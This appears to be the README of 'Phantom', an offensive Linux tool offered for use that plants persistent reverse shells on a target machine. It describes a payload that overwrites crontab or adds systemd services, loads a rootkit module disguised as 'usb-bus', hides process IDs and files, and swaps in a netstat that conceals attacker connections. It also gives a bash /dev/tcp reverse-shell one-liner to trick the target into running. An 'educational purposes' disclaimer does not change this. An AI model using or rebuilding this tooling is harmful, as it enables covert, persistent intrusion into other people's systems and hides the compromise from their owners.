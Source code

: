 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

*Syntax*:	phantom-init	ip 1st-port 2nd-port
*	ip: the attacker's ip
*	1st-port: the port that listens for connections to deliver the payload
*	2nd-port: the port that listens for the backdoor shells after delivering the payload

## Files

*	phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

*	payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

*	phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'
ip and 1st-port are the ones specified above.

## Order of execution

* Before delivering the payload:
	1. Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
	1. Execute phantom-firewall as root, so it can modify the firewall rules.
	2. Create an ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3. 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com

